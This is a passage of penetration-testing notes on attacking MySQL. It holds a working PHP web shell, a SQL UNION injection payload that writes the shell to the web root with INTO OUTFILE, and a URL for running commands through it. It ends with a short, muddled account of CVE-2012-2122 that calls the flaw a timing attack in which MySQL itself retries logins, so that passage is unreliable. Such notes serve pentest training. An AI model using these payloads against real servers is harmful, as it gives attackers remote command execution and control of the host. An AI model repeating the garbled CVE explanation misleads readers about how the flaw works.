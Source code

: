 **Tip**: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

**4.** Uploading a shell. This is a PHP shell:

```php
<?php system($_REQUEST[0]); ?>
```

Let's replicate the UNION injection attack:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL:

```html
https://$ip:$port/shell.php?0=id
```


## Well-know vulnerabilities

### Misconfigurations

Anonymous access enabled.

### Vulnerabilities

`MySQL 5.6.x` servers:  [CVE-2012-2122](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/vulnerability/2383/mysql-database-authentication-bypass) , among others. It allowed us to bypass authentication by repeatedly using the same incorrect password for the given account because the `timing attack` vulnerability existed in the way MySQL handled authentication attempts. In this timing attack, MySQL repeatedly attempts to authenticate to a server and measures the time it takes for the server to respond to each attempt. By measuring the time it takes the server to respond, we can determine when the correct password has been found, even if the server does not indicate success or failure.